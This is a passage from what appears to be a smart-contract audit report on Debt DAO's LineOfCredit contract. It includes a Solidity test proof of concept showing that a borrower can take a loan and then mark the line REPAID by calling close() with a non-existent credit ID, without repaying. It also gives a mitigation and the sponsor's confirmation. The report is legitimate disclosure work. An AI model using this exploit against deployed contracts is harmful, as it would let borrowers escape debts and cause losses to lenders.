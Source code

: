 
Proof of Concept:

```solidity
// contracts/tests/LineOfCredit.t.sol
function testCloseWithoutRepaying_AUDIT() public {
    assertEq(supportedToken1.balanceOf(address(line)), 0, "Line balance should be 0");
    assertEq(supportedToken1.balanceOf(lender), mintAmount, "Lender should have initial mint balance");
      
    _addCredit(address(supportedToken1), 1 ether);

    bytes32 id = line.ids(0);
    assert(id != bytes32(0));

    assertEq(supportedToken1.balanceOf(lender), mintAmount - 1 ether, "Lender should have initial balance less lent amount");
    
    hoax(borrower);
    line.borrow(id, 1 ether);
    assertEq(supportedToken1.balanceOf(borrower), mintAmount + 1 ether, "Borrower should have initial balance + loan");
    
    // The credit hasn't been repaid.
    // hoax(borrower);
    // line.depositAndRepay(1 ether);
    
    hoax(borrower);
    // Closing with a non-existent credit ID.
    line.close(bytes32(uint256(31337)));

    // The debt hasn't been repaid but the status is REPAID.
    assertEq(uint(line.status()), uint(LineLib.STATUS.REPAID));

    // Lender's balance is still reduced by the borrow amount.
    assertEq(supportedToken1.balanceOf(lender), mintAmount - 1 ether);

    // Borrower's balance still includes the borrowed amount.
    assertEq(supportedToken1.balanceOf(borrower), mintAmount + 1 ether);
}
```

### Recommended Mitigation Steps

In the `close` function of `LineOfCredit`, consider ensuring that a credit with the user-supplied ID exists, before closing it.

**[kibagateaux (Debt DAO) confirmed](https://github.com/code-423n4/2022-11-debtdao-findings/issues/258)**


***

## [[H-05] Borrower can craft a borrow that cannot be liquidated, even by arbiter. ](https://github.com/code-423n4/2022-11-debtdao-findings/issues/421)
*Submitted by [Trust](https://github.com/code-423n4/2022-11-debtdao-findings/issues/421), also found by [bin2chen](https://github.com/code-423n4/2022-11-debtdao-findings/issues/281)*
